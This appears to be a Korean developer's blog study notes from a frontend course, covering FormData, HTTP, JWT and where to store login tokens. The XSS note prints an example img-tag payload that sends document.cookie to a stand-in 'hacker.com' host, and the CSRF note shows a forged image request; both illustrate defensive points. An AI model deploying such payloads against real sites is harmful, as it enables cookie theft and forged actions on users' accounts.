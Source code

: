 ```yaml
---
title: 3월 프리온보딩 프론트엔드 챌린지
description: 3월 프리온보딩 프론트엔드 챌린지 수강 도중 애매하게 알고 있었거나 새로이 알게된 정보 정리
tags: [프리온보딩]
date: '2023-03-10'
draft: true
---
```


[2023년 3월 프리온보딩 프론트엔드 챌린지](https://www.wanted.co.kr/events/pre_challenge_fe_7) 수강 도중 애매하게 알고 있었거나 새로이 알게된 정보 정리합니다.

강의를 들으면서 따로 조사해 덧붙인 내용도 있습니다.

<!--truncate-->

## `Week 1-1 개발자 입장에서 바라본 로그인의 개념과, 로그인을 적용하기 위한 어플리케이션 구조에 대해 알아봅니다.`에서 알게 된 것

### FormData API

[도움되는 아티클](https://dev.to/kuvambhardwaj/i-was-creating-forms-the-wrong-way-all-along-in-reactjs-hl3)

- 여기서 유효성 검사는 [pattern 속성](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/pattern)을 추천 한다.

<iframe
  width='100%'
  height='400px'
  src='https://codesandbox.io/embed/formdata-forked-5ebfsh?fontsize=14&hidenavigation=1&theme=dark'></iframe>

:::note

FormData에 속하는 필드는 아래와 같은 메서드로 수정할 수 있습니다.

formData.append(name, value) – name과 value를 가진 폼 필드를 추가

formData.append(name, blob, fileName) – `<input type="file">`형태의 필드를 추가.
세 번째 인수 fileName은 (필드 이름이 아니고) 사용자가 해당 이름을 가진 파일을 폼에 추가한 것처럼 설정해줌

formData.delete(name) – name에 해당하는 필드를 삭제

formData.get(name) – name에 해당하는 필드의 값을 가져옴

formData.has(name) – name에 해당하는 필드가 있으면 true를, 그렇지 않으면 false를 반환

[출처](https://ko.javascript.info/formdata): 모던 JavaScript

:::

🐣: form + input 조합 같은 경우 useState, useRef를 쓰는 경우가 많은데, new FormData로 쓸 때의 이점이 있나요?

🦊: 우선 `useState`는 input의 onChange가 일어날 때마다 리렌더링 된다. 이를 막기 위해 디바운스를 주든지 부가기능을 붙여야 한다. `useRef`는 `FormData API`와 성능적으로 큰 차이가 없지만 FormData를 썼을 때 좀 더 가볍게 처리할 수 있다. 또 코드의 가독성도 생긴다. (시멘틱해지기 때문에)

---

🐣: formData를 콘솔에 찍어보니 `FormData{append: ƒ append(), delete: ƒ delete(), get: ƒ get(), getAll: ƒ getAll(), has: ƒ has()…}`가 뜨는 반면, formData.get을 하면 안의 값이 정상적으로 나옵니다. 브라우저 콘솔에서 FormData{} 아래의 값을 확인하는 방법이 있을까요?

🦊: 브라우저 콘솔로 확인하기 어려울 것이다. [FormData.entries()](https://developer.mozilla.org/en-US/docs/Web/API/FormData/entries)로 확인하시길.

---

## `Week 1-2 배포된 서버의 JWT 로그인 기능을 이용해 실제 로그인 기능을 구현해 보고, 프론트엔드 어플리션의 구조와 기능 관점에서 학습합니다.`에서 알게 된 것

### 이론

0. HTTP란 하이퍼텍스트를 주고받는 `프로토콜`이다.
1. 한 번 로그인하고 난 뒤, 신원 확인이 필요한 API를 쏠 때 Header에 authentication을 붙여주지 않고 요청을 하면 왜 그 사람이 누구인지 모르는 거죠?
   - HTTP 요청은 각각 개별적이며 그렇기 때문에 Header에 authentication을를 붙여주지 않으면 신원확인을 할 수 없다. http는 stateless(무상태)하고 connectionless(비연결성)하다.
2. Base64란?
   - `Base64`란 인코딩 규격이다. Binary Data를 Text로 변경하는 Encoding이다.
   - 인코딩은 다른 형태나 형식으로 변환하는 처리 혹은 그 처리 방식을 말한다.
3. 토큰이란?
   - [웹 표준](https://www.rfc-editor.org/rfc/rfc7519)으로서 이야기하고 있는 하나의 토큰이다.
4. JWT의 토큰 값 구하는 방식
   - 해시함수(헤더 + 페이로드 + 해싱 시크릿키) -> 토큰의 값
   - 백단에서 이 토큰값이 유효한 값인지 확인하는 법: 클라이언트가 보낸 토큰값에서 헤더, 페이로드를 떼고 서버에 있는 시크릿키로 다시 만들어 비교한다.
5. 그래서 토큰을 어디에 저장해야 하는가?

   - 비용과 상황에 따라 다르다. 답이 있는 문제가 아님.
   - 토큰을 런타임 메모리에 저장하면 절대 탈취할 수 없겠지만 매번 로그인해주어야 한다. (로그인 유지 불가)
   - 로컬스토리지에 담으면 XSS에 취약하다. react는 특히 `dangerouslySetInnerHTML` 어트리뷰트가 있는데 특히 더 [주의](https://ko.reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml)해야 한다.
     :::note
     XSS란 웹사이트 관리자가 아닌 이가 웹 페이지에 악성 Script를 삽입할 수 있는 취약점이다.
     `<img src="#" width="0" height="0" onerror="this.src='http://hacker.com/gatherCookie.php?cookie='+encodeURIComponent(document.cookie);" />` 이런식으로 스크립트를 삽입해 탈취할 수 있다.
     :::

   - 쿠키에 담으면 CSRF에 취약하다
     :::note
     CSRF란 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를(수정, 삭제, 등록) 특정 웹사이트에 요청하게 하는 공격이다.

     1. 이용자는 웹사이트에 로그인하여 정상적인 쿠키를 발급받는다
     2. 공격자는 `http://www.geocities.com/attacker` 같은 링크를 이메일이나 게시판 등의 경로를 통해 이용자에게 전달한다.
     3. 공격용 HTML 페이지는 다음과 같은 이미지태그를 가진다.
        `<img src= "https://travel.service.com/travel_update?.src=Korea&.dst=Hell">`
        해당 링크는 클릭시 정상적인 경우 출발지와 도착지를 등록하기 위한 링크이다. 위의 경우 도착지를 변조하였다.

     4. 이용자가 공격용 페이지를 열면, 브라우저는 이미지 파일을 받아오기 위해 공격용 URL을 연다.
     5. 이용자의 승인이나 인지 없이 출발지와 도착지가 등록됨으로써 공격이 완료된다. 해당 서비스 페이지는 등록 과정에 대해 단순히 쿠키를 통한 본인확인 밖에 하지 않으므로 공격자가 정상적인 이용자의 수정이 가능하게 된다.

6. 방어법

   - httponly cookie를 해주고, access token, refresh token으로 방어한다.

7. authentication 앞에 `bearer`를 왜 붙이는 거죠. 심지어 하드코딩을 하는군요!

   - 이 역시도 [RFC 6749](https://www.rfc-editor.org/rfc/rfc6749)에 정의되어 있다. 일종의 통신규약.
     ![bearer](./bearer.png)

8. cURL란 통신 프로토콜을 이용해 URL로 데이터를 전송하여 서버에 데이터를 보내거나 가져올때 사용하기 위한 명령줄 도구 및 라이브러리다. 여기서 `c`는 command line의 약자다.

## `Week 2-1 로컬 서버에 세션 기반 로그인 서버를 실행해 로그인 기능을 구현해 보고, 인프라스트럭쳐 관점에서 관련된 내용을 알아봅니다.`에서 알게 된 것

## `Week 2-2 실무에서 자주 등장하는 로그인과 관련된 개념들을 조금 더 자세히 알아보고, 답변하지 못했던 질문들에 대해서 답변하는 시간을 가집니다.`에서 알게 된 것

## Q&A

🐣: `_secret`처럼 변수명에 언더스코어를 붙이는 의미(네이밍 컨벤션)가 무엇인가요?

🦊: 사실 언더스코어는 시스템, 혹은 객체지향 프로그래밍, 클래스를 만들 때 주로 쓰인다. \_를 붙인다는 것은 스코프 안에서 private하게 쓰겠다는 의미이다. 즉, 비밀스러운 변수.

[더 참고하고 싶다면 읽어보자](https://mingrammer.com/underscore-in-python/)

---

🐣: 보다 일찍 return 을 해줘버리는 걸 뭐라고 하나요?

🦊: ealry return 이라고 한다. 말 그대로 return을 빨리해서 뒷 코드의 구조를 단순하게 만들어준다. 이렇게 하면 else를 제거할 수 있다.

---

🐣: 위치에 따른 로그인 인증 방법을 구현하고 싶은데, vpn은 사용자의 접속 위치를 변경하잖아요? 어떻게 구현하는게 좋을까요?

🦊: 위험함. 클라이언트에서는 특히 하지 마라.

---

🐣: API 다루는 게 너무 어렵습니다. API 실습을 위해서 백엔드도 따로 공부해야 할까요?

🦊: [샘플 API](https://sampleapis.com/)를 추천한다.

---

### 그밖의 메모

meta 태그의 og 는 open graph의 약어로, 어떤 HTML 문서의 메타정보를 쉽게 표시하기 위해 메타정보에 해당하는 다양한 요소들에 대해 사람들이 통일해서 쓸 수 있도록 정의한 프로토콜이다.

